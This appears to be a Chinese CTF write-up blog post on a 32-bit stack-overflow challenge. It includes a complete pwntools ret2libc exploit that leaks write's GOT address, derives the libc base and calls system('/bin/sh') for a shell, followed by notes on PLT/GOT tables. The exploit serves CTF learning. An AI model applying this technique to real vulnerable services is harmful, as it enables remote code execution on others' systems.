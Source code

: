 ```yaml
---
layout:     post
title:      PWN栈溢出入门题LEVEL3解题思路
subtitle:   pwn
date:       2020-12-26
author:     tanghaidong
header-img: img/post-bg-cook.jpg
catalog: true
tags:
    - ctf
---
```


## 解题思路

拿到题目将文件下载下来拖入ubuntu
发现这一次的文件比较特殊：是一个linux环境下的压缩包，自然而然想到的是解压它
![在这里插入图片描述](https://www.freesion.com/images/33/4e79c4afbba21b48eb59745f34735251.png)
通过命令行`tar -xvf level.tar` 将其解压出来 发现有两个文件：level和libc

都拖入IDA
![在这里插入图片描述](https://www.freesion.com/images/849/d69cc11fe065a43fa0391ac3ff4c4a19.png)
![在这里插入图片描述](https://www.freesion.com/images/686/1910a9c7f0003bab2c9916869a369ba6.png)
![在这里插入图片描述](https://www.freesion.com/images/910/e53dbd578be77f58e9a23c81a9362456.png)
特殊的地方在：本题没有直接给出system和bin/sh的位置，但是文件中有个write函数可以利用
我们IDA打开libc文件（关于libc文件是什么有什么 会在总结写到）
总体思路为：我们通过read函数的栈溢出漏洞写入垃圾数据填充后溢出，利用write函数返回函数write真实地址 然后通过利用函数在内存中的地址和libc文件中的偏移的差相等，来获取基址，通过基址来获取system和/bin/sh的地址，再第二次利用read写入，获得shell。

编写exp

```python
from pwn import *
r=remote('220.249.52.134',47355)
elf=ELF("./level3")

writeplt=elf.plt["write"]
writegot=elf.got["write"]
func=elf.symbols["vulnerable_function"]

libc=ELF("./libc_32.so.6")
writelibc=libc.symbols["write"]
syslibc=libc.symbols["system"]
binlibc=libc.search("/bin/sh").next()

payload1='a'*0x88+'aaaa'+p32(writeplt)+p32(func)+p32(1)+p32(writegot)+p32(4)
r.recvuntil("Input:\n")
r.sendline(payload1)

writeaddr=u32(r.recv(4))

sysaddr=writeaddr-writelibc+syslibc
binaddr=writeaddr-writelibc+binlibc
payload2='a'*0x88+'bbbb'+p32(sysaddr)+p32(0xaaaa)+p32(binaddr)
r.recvuntil("Input:\n")
r.sendline(payload2)
r.interactive()
12345678910111213141516171819202122232425
```

![在这里插入图片描述](https://www.freesion.com/images/757/4b67ffbfe8880ab4eeb63efccf2af845.png)
获取flag

## 个人总结

### 有关PLT表和GOT表（动态链接）

为了更好的用户体验和内存CPU的利用率，程序编译时会采用两种表进行辅助，一个为PLT表，一个为GOT表。
如果一个elf可执行文件需要调用定义在共享库中的任何函数，那么它就有自己的GOT和PLT。
PLT表称为过程链接表（procedure linkage table）。
GOT表称为全局偏移量表（global offset table）。
GOT表中存储真正的函数地址。
**PLT表中存储的是GOT表中的地址。**
PLT[0]是一个函数，这个函数的作用是通过GOT[1]和GOT[2]来正确绑定一个函数的正式地址到GOT表中来。
GOT[0]包含.dynamic段的地址，.dynamic段包含了动态链接器用来绑定过程地址的信息，比如符号的位置和重定位信息。
GOT[1]包含动态链接器的标识。
GOT[2]包含动态链接器的延迟绑定代码的入口点。
GOT表中正式的函数地址要从**GOT[3]开始**，也就是第四项。
被调用函数GOT相应表目中存储的最初地址为相应PLT表目中第二条指令的地址值。
函数第一次被调用后．GOT表目中的值就为函数的真正地址。
第一次调用函数时开销比较大．但是其后的每次调用都只会花费一条指令和一个间接的存储器引用。
PLT[1]对应GOT[3]，PLT[2]对应GOT[4]，依次类推。
plt表只在程序调用函数之前有用，**调用函数之后第二次执行这个函数就不会经过plt表**。
**第一次调用函数**
![在这里插入图片描述](https://www.freesion.com/images/710/210eb484245aae52d19bb24484305d2e.png)
**第二次调用函数时**
![在这里插入图片描述](https://www.freesion.com/images/620/4e5c6dad4abb22b4e70a3e53516508fc.png)

原文链接：https://blog.csdn.net/ATFWUS/article/details/104563414

### LIBC.SO.6文件的作用

libc.so.6指CC语言标准库

在一些CTF的PWN题目中，经常可以看到题目除了提供ELF文件之外还提供了一个libc.so.6文件
如果我们可以利用目标程序的漏洞来泄漏某一个函数的地址，那么我们就可以计算出system函数的地址了，当然，被泄露地址的函数必须也定义在libc.so.6中（libc.so.6中通常也存在有/bin/bash或者/bin/sh这个字符串）。

计算system函数地址的基本原理是，在libc.so.6中，各个函数的相对地址是固定的，比如函数A相对于libc.so.6的起始地址为addr_A，函数B相对于libc.so.6的起始地址为addr_B，那么，如果我们能够泄漏进程内存空间中函数A的地址address_A，那么函数B在进程空间中的地址就可以计算出来了，为address_A + addr_B - addr_A

博客内容仅是个人学习对知识的理解，如有不对的地方欢迎指正